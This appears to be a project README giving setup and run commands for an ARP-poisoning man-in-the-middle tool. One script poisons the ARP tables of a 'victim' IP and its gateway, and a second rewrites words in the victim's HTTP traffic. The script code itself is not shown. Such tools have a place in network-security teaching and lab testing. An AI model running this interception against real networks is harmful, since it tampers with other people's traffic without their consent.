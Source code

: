 ### Install Scapy
```
sudo apt-get install python3-scapy
```

### Install iptables and follow this guide
http://www.intellamech.com/RaspberryPi-projects/rpi_iptables.html
```
sudo apt-get install iptables-persistent
```

### Install NetfilterQueue
```
git clone https://github.com/kti/python-netfilterqueue.git
cd python-netfilterqueue
pip3 install Cython --install-option="--no-cython-compile"
python3 setup.py build_ext --force
python3 setup.py install
```

### Open one terminal and run arp-psn.py
```
sudo python3 arp-psn.py <victim ip> <gateway ip>
```
  
### Open another terminal and run httpspoof.py
```
sudo python3 httpspoof.py <victim ip> <word to replace> <replacement word>
```
**Note:** the word to replace and replacement word must have the same number of characters

